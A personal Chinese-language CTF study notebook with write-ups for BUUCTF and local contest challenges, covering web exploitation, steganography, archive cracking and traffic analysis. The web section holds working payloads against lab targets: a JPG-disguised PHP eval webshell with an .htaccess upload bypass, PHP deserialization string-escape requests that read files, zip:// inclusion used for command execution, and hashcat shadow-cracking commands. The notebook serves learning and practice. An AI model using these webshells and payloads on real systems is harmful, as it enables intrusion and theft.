# 20210624

河南漯河

### [GXYCTF2019]BabyUpload

[参考WP](https://blog.csdn.net/qq_41628669/article/details/106133106)

上传php的后缀的文件，发现提示不能够有`ph`的后缀。此时考虑上传`.htaccess`文件



于是上传`.htaccess`文件，文件内容如下：

```
SetHandler application/x-httpd-php
```



这里提示`上传类型也太露骨了`



注意把MIME类型改成`image/jpeg`，因为后台有MIME类型的检测





上传`js-php.jpg`，内容为:

```
GIF89a
<script language="php">eval($_REQUEST[shell]);</script>
```


访问`http://f789ae14-646f-4cef-a828-5955492ec550.node3.buuoj.cn/upload/32e06a4eba381f6f7c2f315d1332da0d/js-php.jpg`

http://f789ae14-646f-4cef-a828-5955492ec550.node3.buuoj.cn/upload/32e06a4eba381f6f7c2f315d1332da0d/js-php.jpg?shell=system(%27cat%20/flag%27);


可以看到这里system函数貌似被disable_function给禁用了。根据WP使用antsword可以直接进行连接



这里就可以成功在根目录下找到flag了

# 20210711

### [RoarCTF 2019]Easy Java

[参考WP](https://blog.csdn.net/ChenZIDu/article/details/103533554)

### [安洵杯 2019]easy_serialize_php

[参考WP](https://www.cnblogs.com/wangtanzhi/p/12261610.html)

[反序列化中的对象逃逸](https://blog.csdn.net/a3320315/article/details/104118688/)

点开首页可以看到源代码

```
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

我们可以看到在```$function == 'phpinfo'```中提示这里默认执行的`phpinfo();`函数，会有一些提示。

```_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}&function=show_image```

访问链接: `http://75c9e238-5e39-44e3-ae11-13eed0518ef5.node4.buuoj.cn/?f=phpinfo`，可以看到提示`	d0g3_f1ag.php`，会像`.user.ini`那样文件包含这个php文件



接下来我们想通过反序列化来任意文件读取

`_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}&function=show_image`

获得flag的HTTP报文如下:

```
POST /index.php?f=show_image HTTP/1.1
Host: 75c9e238-5e39-44e3-ae11-13eed0518ef5.node4.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 140

_SESSION[phpflag]=%3bs%3a14%3a"phpflagphpflag"%3bs%3a7%3a"xxxxxxx"%3bs%3a3%3a"img"%3bs%3a20%3a"L2QwZzNfZmxsbGxsbGFn"%3b}&function=show_image
```


### [GXYCTF2019]禁止套娃


[参考WP](https://www.cnblogs.com/wangtanzhi/p/12260986.html)

[参考WP2](https://www.gem-love.com/ctf/530.html?replytocom=5)

[5个方法进行无参数函数RCE](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/#%E4%BB%80%E4%B9%88%E6%98%AF%E6%97%A0%E5%8F%82%E6%95%B0%E5%87%BD%E6%95%B0RCE)


```
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
```

1. 需要以GET形式传入一个名为exp的参数。如果满足条件会执行这个exp参数的内容。
2. 过滤了常用的几个伪协议，不能以伪协议读取文件。
3. (?R)引用当前表达式，后面加了?递归调用。只能匹配通过无参数的函数。
4. 正则匹配掉了et/na/info等关键字，很多函数都用不了。
5. eval($_GET['exp']); 典型的无参数RCE

#### 无参数函数RCE的启发

##### 方法1：getenv()

查阅php手册，有非常多的超全局变量

```
$GLOBALS
$_SERVER
$_GET
$_POST
$_FILES
$_COOKIE
$_SESSION
$_REQUEST
$_ENV
```

如下的`print_r( getenv('REMOTE_ADDR'));`其实还是有参数的

```
<?php

# print_r(arrray_rand(array_flip()));
print_r( getenv('REMOTE_ADDR'));
print(getenv("HTTP_X_FORWARDED_FOR"));
# print_r(getallheaders());

?>
```



在phph5.6中直接使用`getenv`函数会直接引起报错,但是切换到php7的时候会出现`$_ENV`(本来就等同于`getenv()`)的全部内容，如下：





可以看到上面

##### 方法2：getallheaders()



##### 方法3：get_defined_vars()

##### 方法4：session_id()

##### 方法5：dirname() & chdir()


##### current函数

current() 函数返回数组中的当前元素的值。

每个数组中都有一个内部的指针指向它的"当前"元素，初始指向插入到数组中的第一个元素。

提示：该函数不会移动数组内部指针。要做到这一点，请使用 next() 和 prev() 函数。

相关的方法：

end() - 将内部指针指向数组中的最后一个元素，并输出
next() - 将内部指针指向数组中的下一个元素，并输出
prev() - 将内部指针指向数组中的上一个元素，并输出
reset() - 将内部指针指向数组中的第一个元素，并输出
each() - 返回当前元素的键名和键值，并将内部指针向前移动

### [GWCTF 2019]我有一个数据库


# 20210912

### [指挥官杯]简单反序列化

20210912在北田党校发现如下这个题目(改代码我复制到本地调试的代码，可能有一些污染漏的调试性代码片段)：

[反序列化字符串逃逸-3参数的字符串变多变少都有](https://blog.csdn.net/qq_43431158/article/details/108210822)

[反序列化字符串逃逸-2参数的字符串变少](https://blog.csdn.net/weixin_48795987/article/details/115873698)

```
 <?php
//error_reporting(0);

class catalogue{
    public $class;
    public $data;
    public function __construct()
    {
        $this->class = "error";
        $this->data = "hacker";
    }
    public function __destruct()
    {
        echo new $this->class($this->data);
    }
}


class error{
    public function __construct($OTL)
    {
        $this->OTL = $OTL;
        echo ("hello ".$this->OTL);
    }
}


class escape{                                                                   
    public $name = 'OTL';                                                 
    public $phone = '123666';                                             
    public $email = 'sweet@OTL.com';                          
}


function abscond($string) {
    $filter = array('huanyu', 'zhihuiguan', 'OTL_QAQ', 'hello');
    $filter = '/' . implode('|', $filter) . '/i';
    return preg_replace($filter, 'hacker', $string);
}

if(isset($_GET['cata'])){
    if(!preg_match('/object/i',$_GET['cata'])){
        unserialize($_GET['cata']);
    }
    //没有能够直接反序列化的类，这里目前不能用，所以就是要匹配到object
    else{
        $cc = new catalogue(); 
        unserialize(serialize($cc));           
    }
    //因为匹配到object , 出发 `hello hacker`
    if(isset($_POST['name'])&&isset($_POST['phone'])&&isset($_POST['email'])){
        if (preg_match("/flag/i",$_POST['email'])){
            die("nonono,you can not do that!");
        }
        $abscond = new escape();
        $abscond->name = $_POST['name'];
        $abscond->phone = $_POST['phone'];
        $abscond->email = $_POST['email'];
        $abscond = serialize($abscond);
        //print_r($abscond);
        //echo "<hr>";
        $escape = get_object_vars(unserialize(abscond($abscond)));
        //print_r($escape);
        if(is_array($escape['phone'])){
        echo base64_encode(file_get_contents($escape['email']));
        }
        else{
            echo "I'm sorry to tell you that you are wrong";
        }
    }
}
else{
    highlight_file(__FILE__);
}
?>

```

这个题是反序列化字符串逃逸

本地做了一个环境，是在WEB目录中放了个flag.txt文件，里面放了一些象征性的flag代码

#### 方法一：字符串变多方法逃逸

发送payloadHTTP包大致如下

```
POST /problem.php?cata=o2bject HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

name=123&phone[]=hellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohello";}s:5:"email";s:8:"flag.txt";}&email=789
```



如上，phone通过空数组传参形式绕过in_array校验，然后反序列化字符串绕过对$_POST['phone']的`flag`的匹配，就可以进行任意文件读取，差不多就是这种类似的思路。

#### 方法二：字符串变少方法逃逸

```
POST /problem.php?cata=ob2ject HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 298

name=OTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQOTL_QAQ&phone[]=1";s:5:"phone";a:1:{i:0;s:3:"456";}s:5:"email";s:8:"flag.txt";} &email=789
```



#### 总结

###### 序列化字符串对象

对数组的序列化

```
$usr = array('username','password');
print_r(serialize($usr));
```

得到的序列化对象是：

`a:2:{i:0;s:8:"username";i:1;s:8:"password";}`

```
$cars[0]="Volvo";
$cars[1]="BMW";
$cars[2]="Toyota";
print_r(serialize($cars));
```

得到的序列化对象是：

`a:3:{i:0;s:5:"Volvo";i:1;s:3:"BMW";i:2;s:6:"Toyota";}`

可以看到数组的类是 `a` 开头，但不是自定义命名，和平常见到的对自定义的类进行序列化后得到的字符串是不一样的。无数字下标的是比较直接简单一些，有数字下标的话，序列化字符串里会出现i类型数字，字符串这种的键值对

###### 对自定义对象的序列化

`O:6:"escape":3:{s:4:"name";s:210:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:5:"phone";a:1:{i:0;s:64:"1";s:5:"phone";a:1:{i:0;s:3:"456";}s:5:"email";s:8:"flag.txt";}`

O是类，随后的是自定义的名字，再者就是里面的内容。

##### 字符串逃逸的操作

分少变多或多变少的两种情况，都可以实现字符串逃逸。常发生在序列化字符串后程序直接对序列化字符串进行替换，会导致字符串数量增多或者减少。变多的方法简单一些，变少的方法稍微复杂一些。

操作如下：

###### 变多的操作（简单）

```O:6:"escape":3:{s:4:"name";s:3:"123";s:5:"phone";a:1:{i:0;s:3:"456";}s:5:"email";s:3:"789";}```

1. 差值分析
hello -> hacker 差值:+1

2. 构造希望的序列化字符串

(希望email出现flag.txt字符串)

（双@包裹的地方就是我们要填充payload的地方）

```O:6:"escape":3:{s:4:"name";s:3:"123";s:5:"phone";a:1:{i:0;s:3:"@@";}s:5:"email";s:8:"flag.txt";}```

3. 被修改的值后包括单引号看长度

(双@包裹的地方就是根据设想的payload要填充到字符串变多的地方)

`@";}s:5:"email";s:8:"flag.txt";}@31`

4. 构造payload

`hellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohello";}s:5:"email";s:8:"flag.txt";}`

两个参数，第一个参数要变长，把参数值顶到第二个参数上即可，基本没有什么需要太值得注意的操作细节。

###### 变短的操作（稍复杂）

正常序列化字符串：

`O:6:"escape":3:{s:4:"name";s:3:"123";s:5:"phone";a:1:{i:0;s:3:"456";}s:5:"email";s:3:"789";}`

email参数会被进行flag的检测。所以，这里要在第二个参数中加入`";}s:5:"email";s:3:"789";}`这种内容，这个东西先不着急弄，因为操作前不需要看这里，吃得字符数量够到后面参数的参数值的第二个双引号前即可，因为自己的值被吃了，自己的完整的序列化字符串和后面的序列化字符串的内容补到自个儿身上就行了。

接下来才是操作的第一步，也是主要的一步。

大致估计第二个参数会被前一个参数吃掉自身的长度，来构建前面参数字符串要变少的数量。

（可以算第二个参数前的双引号开始到自身第二个参数值的结尾的双引号前）

`";s:5:"phone";a:1:{i:0;s:3:"456`

大概31，大概估计即可（这一步其实应该是一步就可以到位的那种，笔者这里反正老师没匹配对），然后开始根据字符串变少的差值想办法让吃得的字符串够到第二个参数传参的参数值的第二个双引号前（可以动态的结合被吃的序列化参数的传参的多少和吃字符串数量的payload即可）

如图，算了下没有够到，还差两位



多吃俩



算了一下，发现多写了个`OTL_QAQ`。但是只要勾到引号前面即可，这里可以算是少1个字符，就在传参的时候phone多传1个字符

如下图，刚刚好。


图中高亮的部分不要当成序列化字符串的内容了。这就是第一个传参的参数值。除此以外没有别的。

### [指挥官杯]简单反序列化

# 20210913

### [九道关]反序列化



```
O:4:"Demo":2:{s:4:"name";s:3:"123";s:4:"pass";s:9:"cat /flag";}

";s:4:"pass";s:14:"ping 127.0.0.1";}
36
zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz";s:4:"pass";s:14:"ping 127.0.0.1";}
";s:4:"pass";s:13:"find / *flag*";}
35
zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz";s:4:"pass";s:13:"find / *flag*";}

";s:4:"pass";s:13:"find / *flag*";}


";s:4:"pass";s:33:"cat /var/www/html/flag.php|base64";}
55
zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz";s:4:"pass";s:33:"cat /var/www/html/flag.php|base64";}
```





### [九道关]信息泄露



扫描得到备份文件:`index.php.bak`



flag{5D41402ABC4B2A76B9719D911017C592}

### [九道关]文件上传



看到网页源代码有文件包含



直接进行扫描发现`upload.php`的文件接口





模糊测试发现zip伪协议是允许的

上传更名为`js-php-zip.jpg`的压缩了`js-php.php`的`js-php-zip.zip`的文件。



访问链接：

`http://218.94.126.123:35478/?file=zip://upload/js-php-zip.jpg%23js-php.php`









说实话，不知道为什么zip解压的这个shell没办法上到蚁剑上面，连接不成功

访问`view-source:http://218.94.126.123:35499//?file=zip://upload/muma-zip.jpg%23muma.php&cmd=system(%27find%20/%20-name%20*flag*%27);`

得到结果:`/var/www/html/flag_sdhaofjaASFAF`

访问`view-source:http://218.94.126.123:35499//?file=zip://upload/muma-zip.jpg%23muma.php&cmd=print_r(%2711111%27);system(%27ls%20/var/www/html/%27);print_r(%2722222%27);`

```
11111bg.css
common_ui.inc
flag_sdhaofjaASFAF
index.php
upload
upload.php
```



不知道为啥，就是看不到flag，那个文件貌似是个空文件？

访问```http://218.94.126.123:35499//?file=zip://upload/muma-zip.jpg%23muma.php&cmd=print_r(%2711111%27);print_r(`cat%20/var/www/html/*|base64`);print_r(%2722222%27);```

总结：搞了很长时间，后来学长和我说，这是个目录。。。。啊这，以后我再命令执行得先`ls -l`看一下这个文件是不是目录再说。。

```view-source:http://218.94.126.123:35499//?file=zip://upload/muma-zip.jpg%23muma.php&cmd=print_r(%2711111%27);print_r(`cat%20/var/www/html/flag_sdhaofjaASFAF/*`);print_r(%2722222%27);```

得到`flag{edce2dc468e24729d94f951349ca25fe}`

### [九道关]sql注入

题目出现问题，访问index.php报错`500`响应码，无法正常做题

思路如下：



这里发现 `X-Powered-By` 的版本号不对，这里直接是php18


把这个字段复制到请求包里面发送，进行SQL注入即可

### [九道关]cipherception

题目描述：

```
5Affine2>8Caesar>Atbash>B64

eHR3c2lra2N0Y2p3dGV2Y2dlYXRpeWN3dGV2Y2tlanM=
```



得到`flagisselenaloveyoulikealovesong`

这里8caesar的8有一些迷惑性

### [九道关]shadow

[密码破解全能工具：Hashcat密码破解攻略](https://www.freebuf.com/sectool/164507.html)

题干描述:下载附件即可解题（无需点击“点击获取在线场景”）ps：破解righteous的ubuntu密码(Flag) ，最终提交密码的32位(小写)md5值作为flag。

`hashcat -a 0 -m 1800 a.txt --force 10-million-password-list-top-10000.txt`

`hashcat -m 1800 -a 3 -2 ?u?l -o found.txt 5.txt  --increment --increment-min 1 --increment-max 8 ?2?2?2?2?2?2?2?2 #1`

王哥说这个题的头四个字母是大写的FLAG，题目中描述漏了这个描述

### [九道关]secure

题干描述：下载附件即可解题（无需点击“点击获取在线场景”）ps：将黑客第一次登录系统的时间转换为32位小写的md5即为flag。

用logviewer，点`编辑`->`过滤` `accepted` 字段，可以过滤出登录成功的几个条目。如图，复制时间`17:28:47`进行md5计算摘要得到flag。




```flag{e62e0ac7c855341dcdde9f29de689687}```

### [省工会技术文件]WEB样题



# 20220122

山西孝义

### 金三胖

[参考链接](https://www.freesion.com/article/6696637159/)

题目

```
注意：得到的 flag 请包上 flag{} 提交
```

下载下来是个aaa.gif图片，是个动图。使用stegSolve进行分帧

先打开图片，然后使用Analyse的Frame browser进行分帧




可以看到总共是89帧，在第21、51、79帧拼凑得到flag如下：

`flag{he11ohongke}`

### 二维码

题目

```
注意：得到的 flag 请包上 flag{} 提交
```

本地扫描QR只得到一串文本信息："secret is here"



binwalk对png图片进行分析，看到有个名为`4number.txt`的文件



使用foremost对png图片进行分离



分离出来后得到一个zip文件和一个png文件。png文件就是二维码本身，zip文件是一个加了密的文件。



这里使用AdvanceZIP进行解压缩，使用了一些git上公开的破解压缩包的程序，但是这里发现除了advanceZIP以外的程序解密并不准确，而AdvancedZIP解密是又准确的。25ms就得到密码`7639`



得到`4number.txt`获得flag`CTF{vjpw_wnoei}`，把ctf改为flag即可。

#### 总结

binwalk的安装在windows上不太现实，试过很多方法，包括pcat在2016年的文章，但是目前无法实现binwalk安装在windows上面。但是binwalk可以安装在比较新版本的kali上面是没有问题的。

这里使用binwalk分析一个正常的png文件和有文件压缩的png文件。我寻思png文件里面也是zlib压缩方法，但是怎么辨别确实存在zip文件呢？对比如下，如果有zip压缩包，那么这里不会写Zlib压缩数据，而是专门的`Zip架构`数据。



### 你竟然赶我走

题目

```
注意：得到的 flag 请包上 flag{} 提交
```

得到文件`biubiu.jpg`，直接查看图片的文本可以看到flag`flag{stego_is_s0_bor1ing}`



### N种方法解决

[参考链接](https://blog.csdn.net/Ewige/article/details/108312958)

题目

```
注意：得到的 flag 请包上 flag{} 提交
```

得到文件`KEY.exe`



把后缀改为txt发现这完全是一个data:image格式的base64编码的文件



其实这里可以使用binwalk来先看一些，同时也发现binwalk分析正常的exe文件和这种伪造的exe文件差别还是挺大的。



节外生枝小实验，这里试着foremost一下inscan，发现也就分离出来俩破损的gif图片



回到答题，现在利用浏览器把data:image格式的base64编码图片变为真正的图片，html代码编辑如下

```

```

然后浏览器打开



浏览器上另存图片，然后本地QR扫描工具扫描后得到flag



### 大白

[参考链接](https://zhuanlan.zhihu.com/p/137071961)



看起来是一个正常的图片，但是根据图片文件提示的`大`这个字，我觉得可能是得改改高度

用010editor打开png图片看到CRC校验是错误的



就是这里不对了


##### 方法一：010直接修改高度

这里看到010Editor提示chunk[0]存在CRC校验错误的问题，那么点开下面的chunk修改高度宽度即可


可以看到flag出来了


##### 方法二：脚本爆破出正确的CRC校验码

代码如下：

```
# coding=utf-8

import os
import binascii
import struct
import sys

misc = open(sys.argv[1],'rb').read()
print("已打开图片")
for i in range(1024):
    #print(i)
    data = misc[12:16] + struct.pack('>i',i)+ misc[20:29]
    crc32 = binascii.crc32(data) & 0xffffffff
    if crc32 == 0x8E14DFCF:
        print(i)
        print("hex:"+hex(i))
for i in range(1024):
    #print(i)
    data = misc[12:20] + struct.pack('>i',i)+ misc[24:29]
    crc32 = binascii.crc32(data) & 0xffffffff
    if crc32 == 0x8E14DFCF:
        print(i)
        print("hex:"+hex(i))
```


可以直接修改为正确的图片的高低和长度

### 基础破解

题目

```
给你一个压缩包，你并不能获得什么，因为他是四位数字加密的哈哈哈哈哈哈哈。。。不对= =我说了什么了不得的东西。。 注意：得到的 flag 请包上 flag{} 提交
```

直接用工具进行爆破得到`2563`的密码（发现ARPR爆破rar没有zip那么快）


得到`flag.txt`


`ZmxhZ3s3MDM1NDMwMGE1MTAwYmE3ODA2ODgwNTY2MWI5M2E1Y30=`

得到flag


### 乌镇峰会种图

题目

```
乌镇互联网大会召开了，各国巨头汇聚一堂，他们的照片里隐藏着什么信息呢？（答案格式：flag｛答案｝，只需提交答案） 注意：得到的 flag 请包上 flag{} 提交
```

获得`b56cde4f-be03-4d07-a0ca-6af22284f0aa.jpg`一个jpg图片

使用stegsolve打开图片，然后使用Analyse中的File Format可以看到ascii中有flag信息，或者直接文本方式打开也可以直接看到flag。


### 文件中的秘密

题目

```
小明经常喜欢在文件中藏一些秘密。时间久了便忘记了，你能帮小明找到该文件中的秘密吗？ 注意：得到的 flag 请包上 flag{} 提交
```

File Format Analysis中直接看到有flag


或者从图片属性里可以看到作为备注的flag


`flag{870c5a72806115cb5439345d8b014396}`

### LSB

[参考链接](https://blog.csdn.net/qq_51462441/article/details/113530049)

题目

```
注意：得到的 flag 请包上 flag{} 提交
```

得到图片`flag11.png`，一个中国矿业大学的图片


从文本格式来看，应该是LSB隐写了有一个png图片，保存为png图片后就是一个二维码


本地识别二维码得到flag


### wireshark

[参考链接](https://www.cnblogs.com/tac2664/p/13686549.html)

题目

```
黑客通过wireshark抓到管理员登陆网站的一段流量包（管理员的密码即是答案) 注意：得到的 flag 请包上 flag{} 提交
```

下载得到一个wireshark的pcap包，追踪流直接看到了这里的登录密码


### rar

题目

```
这个是一个rar文件，里面好像隐藏着什么秘密，但是压缩包被加密了，毫无保留的告诉你，rar的密码是4位纯数字。 注意：得到的 flag 请包上 flag{} 提交
```

下载得到一个加密的rar文件`dianli_jbctf_MISC_T10076_20150707_rar.rar`

直接ARPR继续数字爆破即可


得到密码`8795`

解压得到flag


### zip伪加密

题目

```
注意：得到的 flag 请包上 flag{} 提交
```

用java破解伪加密直接去掉伪加密PK位

`java -jar "ZipCenOp(破解伪加密).jar" r ee2f7f26-5173-4e7a-8ea4-e4945e6f04ff.zip`


现在直接解压得到flag


### qr

题目

```
这是一个二维码，谁用谁知道！ 注意：得到的 flag 请包上 flag{} 提交
```

直接下载得到一个二维码，直接离线扫码得到flag


### 被嗅探的流量

题目

```
某黑客潜入到某公司内网通过嗅探抓取了一段文件传输的数据，该数据也被该公司截获，你能帮该公司分析他抓取的到底是什么文件的数据吗？ 注意：得到的 flag 请包上 flag{} 提交
```

获得一个pcap流量文件

追踪流看到黑客访问`upload.php`文件下载了一个`flag.jpg`的文件


直接搜这个流量包的文本看到flag位置

#### 总结

wireshark从流量中把图片分离出来有一点点困难，如下图这种可以导出HTTP流量直接请求一个图片地址中流量里面的图片


但是并不好分离这种通过HTTP分块传输协议传输的图片


这里可以导出包含图片的流量字节组


然后foremost直接就可以分离出里面的图片


[?] 但是我没能从这儿分离出来的图片中找到flag，日后需要查证一下

### 镜子里面的世界

解压看到一个png图片


改为0通道就看到这里有flag了,直接就是一个文本内容


`the secre t key is: st3g0_saurus_wr3cks`

### ningen

题目

```
人类的科学日益发展，对自然的研究依然无法满足，传闻日本科学家秋明重组了基因序列，造出了名为ningen的超自然生物。某天特工小明偶然截获了日本与俄罗斯的秘密通信，文件就是一张ningen的特写，小明通过社工，知道了秋明特别讨厌中国的六位银行密码，喜欢四位数。你能找出黑暗科学家秋明的秘密么？ 注意：得到的 flag 请包上 flag{} 提交
```

下载得到一个jpg图片，binwalk发现里面有一个zip压缩包


foremost分离出压缩包文件，发现压缩包解压需要密码。


进行zip压缩密码爆破，根据题干是4位数字，得到密码8368


解压得到flag


### 小明的保险箱

题目

```
小明有一个保险箱，里面珍藏了小明的日记本，他记录了什么秘密呢？。。。告诉你，其实保险箱的密码四位纯数字密码。（答案格式：flag｛答案｝，只需提交答案） 注意：得到的 flag 请包上 flag{} 提交
```

通过binwalk发现jpg图片里有一个rar文件


通过foremost分离出来rar文件之后进行破解。破解得到密码`7869`


解压得到flag

### 爱因斯坦

题目

```
注意：得到的 flag 请包上 flag{} 提交
```

得到一个爱因斯坦的jpg图片

看到图片备注`this_is_not_password`，这个看起来像是密码

进行binwalk分析


foremost分离出来一个含`flag.txt`的zip压缩包

解压得到flag

### easycap

题目

```
注意：得到的 flag 请包上 flag{} 提交
```

得到一个pcap的流量包，直接追踪TCP流看到传输的PDU就是flag


这个流量包是一个一个字节传输的


### 隐藏的钥匙

题目

```
路飞一行人千辛万苦来到了伟大航道的终点，找到了传说中的One piece，但是需要钥匙才能打开One Piece大门，钥匙就隐藏在下面的图片中，聪明的你能帮路飞拿到钥匙，打开One Piece的大门吗？ 注意：得到的 flag 请包上 flag{} 提交
```

得到`隐藏的钥匙.jpg`


binwalk发现有两个jpg图片


分离后得到另一个图片

以上做法针对这个题目都不用，这个题目用010直接搜索文本就看到flag了


解码提交flag

### 另外一个世界

得到一个jpg图片，binwalk发现没有问题


但是在010editor中发现了可以的数字串


写了一段程序，从二进制01变为ascii编码字符

```
# coding=utf-8

str1 = '01101011011011110110010101101011011010100011001101110011'
list_ascii = ['','','','','','','']
for i1 in range(7):
    for i2 in range(8):
        i3 = 8*i1 + i2
        list_ascii[i1]+=(str1[i3])
print(list_ascii)

for i in range(len(list_ascii)):
    print(chr(int(list_ascii[i],2)),end='')
```


得到密码`koekj3s`

### FLAG

题目

```
感谢 牌森 同学提供题目~

注意：请将 hctf 替换为 flag 提交，格式 flag{}
```

得到一个png图片


binwalk分析正常


但是通过stegsolve发现是lsb隐写，隐写了一个看起来是压缩包的文件


不知道是什么格式的压缩文件，用file命令分析了下文件头，是zip的压缩文件


分离出来压缩包后解压，发现文件是损坏的，但是里面有一个`1`的ELF文件


放linux下面执行以下得到flag


`hctf{dd0gf4c3tok3yb0ard4g41n~~~}`

### 假如给我三天光明

[参考链接](https://www.cnblogs.com/tac2664/p/13756831.html)

题干

```
注意：得到的 flag 请包上 flag{} 提交
```

得到一个zip压缩包和一个`pic.jpg`的图片文件


想解压出来zip里面的wav文件需要密码。jpg图片是这个样子，看到下面奇怪的点阵


经过查询这是盲文，读出密码串为：`kmdonowg`

然后解压出`music.wav`文件


摩斯编码，解码得到`{wpei08732?23dz}`

### 神秘龙卷风

[参考链接](https://www.cnblogs.com/wjun336/p/13936769.html)

题目

```
神秘龙卷风转转转，科学家用四位数字为它命名，但是发现解密后居然是一串外星人代码！！好可怕！ 注意：得到的 flag 请包上 flag{} 提交
```

得到一个加密的rar压缩文件


得到密码`5463`


看到了奇怪的文本


在线brainfuck解码得到flag


`flag{e4bbef8bdf9743f8bf5b727a9f6332a8}`

### 后门查杀

[参考链接](https://blog.csdn.net/weixin_46079186/article/details/118856064)

题目

```
小白的网站被小黑攻击了，并且上传了Webshell，你能帮小白找到这个后门么？(Webshell中的密码(md5)即为答案)。 注意：得到的 flag 请包上 flag{} 提交
```

下载得到一个网站的php后门代码


先用D盾扫描一下


看最高级5级的`include.php`文件，总共1600多行代码。看到pass变量，根据题干提交webshell中的密码即可


提交flag

### 数据包中的线索

题目

```
公安机关近期截获到某网络犯罪团伙在线交流的数据包，但无法分析出具体的交流内容，聪明的你能帮公安机关找到线索吗？ 注意：得到的 flag 请包上 flag{} 提交
```

得到一个pcap文件，追踪流看到了base64编码的内容，拿去解密


注意框选base64编码的地方，不要包含那个HTTP响应正文里多余的第一行和最后一行


得到一个图片，看到flag:`flag{209acebf6324a09671abc31c869de72c}`


### 荷兰宽带数据泄露

题目

```
注意：得到的 flag 请包上 flag{} 提交
```

得到`conf.bin`文件


直接用记事本打开这个文件看不到任何的东西，得使用`routepasswordview`打开才能看到内容

这是一个带块数据文件，得RoutePassview才能打开


直接把这个当作flag提交

### 来首歌吧

题目

```
注意：得到的 flag 请包上 flag{} 提交
```

获得一个音频文件wav，放入audacity中看到了存在摩斯码


简单的长短结合


解码得到flag

`flag{5BC925649CB0188F52E617D70929191C}`

### webshell后门

题目

```
朋友的网站被黑客上传了webshell后门，他把网站打包备份了，你能帮忙找到黑客的webshell在哪吗？(Webshell中的密码(md5)即为答案)。 注意：得到的 flag 请包上 flag{} 提交
```

得到了一个网站的php代码，可以直接D盾扫描看到后门


看到密码pass


直接当作flag提交

### 面具下的flag

[参考链接](https://blog.csdn.net/weixin_45485719/article/details/107417878)

```
注意：得到的 flag 请包上 flag{} 提交
```

得到一个jpg图片，binwalk看到里面的参杂的文件还挺多的


foremost分离出来一个zip压缩包，里面有一个vmdk文件，但是解压缩需要密码


弱口令爆破失败，但是发现是一个伪加密的zip压缩包


看到解压出来一个Vmware的磁盘文件，文本搜了一下flag


直接提交flag`Oops,flag_part_two_isn't_here!`怎么也提交不对

才知道要解压一下这个vmdk。`7z x flag.vmdk -o./`，在linux下解压得到文件目录


